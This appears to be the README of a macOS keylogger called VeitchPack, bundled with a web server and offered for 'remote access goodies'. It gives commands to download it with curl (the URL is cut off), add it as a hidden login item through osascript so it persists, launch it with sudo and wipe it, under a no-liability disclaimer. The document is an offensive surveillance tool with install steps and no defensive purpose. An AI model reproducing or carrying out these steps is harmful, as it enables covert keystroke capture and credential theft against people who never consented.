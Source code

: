 # VeitchPack #
A keylogger bundled with a webserver. For remote access goodies on OSX... best done via ssh.
**I AM NOT RESPONSIBLE FOR ANY DAMAGE CAUSE BY THIS SOFTWARE. PROCEED TO USE AT YOUR OWN RISK. I WILL NOT BE HELD LIABLE.**
### Download ###
~~~~
curl -o "VeitchPack.zip" s
unzip VeitchPack.zip
~~~~

### Add to Startup Menu ###
~~~~
echo `pwd`/`ls launch.command`
osascript -e 'tell application "System Events" to make login item at end with properties {path:"PATH_HERE", hidden:true}'
~~~~

### Run ###
~~~~
sudo ./launch.command
~~~~

### Wipe ###
~~~~
sudo ./wipe.command
~~~~
